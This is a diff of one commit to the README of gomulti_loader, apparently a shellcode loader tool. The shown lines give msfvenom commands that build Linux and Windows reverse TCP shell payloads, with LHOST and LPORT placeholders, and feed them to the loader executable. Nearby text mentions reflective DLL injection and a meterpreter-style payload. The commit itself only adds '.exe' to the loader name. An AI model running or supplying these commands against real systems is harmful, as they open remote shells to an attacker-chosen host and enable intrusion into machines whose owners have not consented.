

Before and after one commit to grisuno/gomulti_loader, a Markdown page: README.md, the part around the change. Drawn GitHub-style; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -114,7 +114,7 @@ msfvenom -p linux/x64/shell_reverse_tcp LHOST={lhost} LPORT={lport} -f c -o shel
 - Windows (64-bit): Reflective DLL injection / reverse meterpreter-style payload (via ws2_32.dll and cmd execution)
 
 ```bash
-msfvenom -p windows/x64/shell_reverse_tcp LHOST={lhost} LPORT={lport} -f c -o shellcode_test.txt ; powershell .\loader_windows -shellcode shellcode_test.txt
+msfvenom -p windows/x64/shell_reverse_tcp LHOST={lhost} LPORT={lport} -f c -o shellcode_test.txt ; powershell .\loader_windows.exe -shellcode shellcode_test.txt
 ```
 
 
````
